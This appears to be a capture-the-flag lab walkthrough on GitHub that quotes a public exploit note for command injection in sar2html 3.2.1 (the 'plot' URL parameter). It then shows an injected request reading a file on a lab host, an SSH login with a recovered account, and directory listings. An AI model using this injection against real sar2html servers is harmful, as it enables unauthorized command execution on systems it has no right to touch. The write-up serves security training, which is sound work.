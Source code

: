 ####  sar2html 
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/e677d9f9-160e-4d40-8264-91253056e7ab)

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
            
```
### http://<ipaddr>/index.php?plot=;<command-here> will execute 
`http://10.10.92.152/joomla/_test/index.php?plot=;%20cat%20log.txt ` 
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/33228786-b0a4-4e8a-984f-3893d1e56517)

```
┌──(melle㉿tuguldur)-[~/Downloads]
└─$ ssh basterd@10.10.243.35 -p 55007
The authenticity of host '[10.10.243.35]:55007 ([10.10.243.35]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.243.35]:55007' (ED25519) to the list of known hosts.
basterd@10.10.243.35's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.


Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ ls
```
![image](https://github.com/T6X3G/F.NS357_Machine-s/assets/110654108/2dd73831-6b03-46ee-946f-cbb2bb25b55d)

```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```
